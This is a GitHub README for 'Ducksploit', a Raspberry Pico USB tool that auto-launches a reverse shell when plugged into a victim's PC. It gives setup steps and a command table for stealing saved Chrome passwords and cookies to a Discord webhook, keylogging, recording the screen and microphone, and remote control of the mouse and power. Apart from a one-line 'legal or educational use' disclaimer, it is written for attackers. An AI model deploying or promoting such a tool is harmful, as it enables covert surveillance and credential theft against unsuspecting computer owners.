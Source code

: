 ![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")

 # Ducksploit
 ![](https://img.shields.io/badge/Version-1.0.6-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT)
 
 ## Awsome crossbreed of batch and python ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/pyxbat.png?raw=true" alt="pyxbat" width="300"/>
</center>

## Install Ducksploit

#### Hacker
###### setup raspberry pico
   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in PICO SETUP folder
   4. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
   5. Move CircuitPython.uf2 file in the E:\ usb port (port of your pico)
now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
   6. Erase all the content of your raspberry pico and copy 'copy' folder into him
   7. Write myip.txt and write your own IP
   8. Now your raspberry pico is full configured , unplugg your pico and done!


###### setup ducksploit commands




   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in SERVER folder
   4. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
   5. Install python requirements using 'installrequirements.bat' script
   6. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
   7. Ducksploit is now installed on your PC :smile:
   8. Type 'ducksploit' in the cmd
   9. Config your ip using 'ipconfig' (your ip)
   10. Wait victim's connection using 'wait' command
   11. Have fun with ducksploit hacking commands (type help to get commands list)

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use :warning:

## Uninstall Ducksploit

   1. type 'ds uninstall' in cmd
   2. Done  :smile:

## SUPPORT
<noscript><a href="https://paypal.me/canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>

## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8013/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| mousescroll | mousescroll (int between -1000 and 1000) | make the user scroll by int pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg [-file, -text] (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
